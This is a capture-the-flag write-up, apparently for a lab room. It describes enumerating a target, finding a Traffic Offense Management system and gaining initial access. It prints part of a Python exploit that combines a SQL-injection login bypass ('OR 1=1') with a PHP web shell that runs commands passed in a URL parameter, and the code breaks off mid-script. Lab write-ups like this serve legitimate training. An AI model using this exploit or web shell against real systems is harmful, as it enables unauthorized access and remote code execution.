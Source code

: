 My next step was to try and enumerate hidden folders through the use of **`dirsearch.py`**. This led me to discover that the **/admin**, **/shadow**, and **/passwd** directories were available. However, this was a trap which I unfortunately fell for.

Afterwards, I attempted to use **`enum4linux`** to enumerate the so-called **"SMB"** protocol at port 445. It wasn't until later that I realized another http server was running on that port, which again was a trap that I fell for.

My next attempt involved enumerating hidden folders on **10.10.72.232:445**, which led me to discover the **`/management/`** folder that hosted a Traffic Offense Management system. 

<img id="image2" />

After conducting some online research, I found an exploit that could be allowed for Remote Code Execution (RCE). Also, I located the exploit code at searchsploit

<img id="image3" />

## <b>Initial Access</b>

I successfully uploaded a shell to the **/uploads** folder using the following code.

```python linenums="1"
#!/usr/bin/env python2
import requests
import time
from bs4 import BeautifulSoup

print ("\nExample: http://example.com\n")

url = raw_input("Url: ")
payload_name = "evil.php"
payload_file = "<?php if(isset($_GET['cmd'])){ echo '<pre>'; $cmd = ($_GET['cmd']); system($cmd); echo '</pre>'; die; } ?>"

if url.startswith(('http://', 'https://')):
    print "Check Url ...\n"
else:
    print "\n[?] Check Adress\n"
    url = "http://" + url

try:
    response = requests.get(url)
except requests.ConnectionError as exception:
    print("[-] Address not reachable")
    sys.exit(1)

session = requests.session()

request_url = url + "/classes/Login.php?f=login"
post_data = {"username": "'' OR 1=1-- '", "password": "'' OR 1=1-- '"}
bypass_user = session.post(request_url, data=post_data)


if bypass_user.text == '{"status":"success"}':
    print ("[+] Bypass Login\n")
    cookies = session.cookies.get_dict()
    req = session.get(url + "/admin/?page=user")
    parser = BeautifulSoup(req.text, 'html.parser')
    userid = parser.find('input', {'name':'id'}).get("value")
    firstname = parser.find('input', {'id':'firstname'}).get("value")
    lastname = parser.find('input', {'id':'lastname'}).get("value")
    username = parser.find('input', {'id':'username'}).get("value")

    request_url = url + "/classes/Users.php?f=save"
```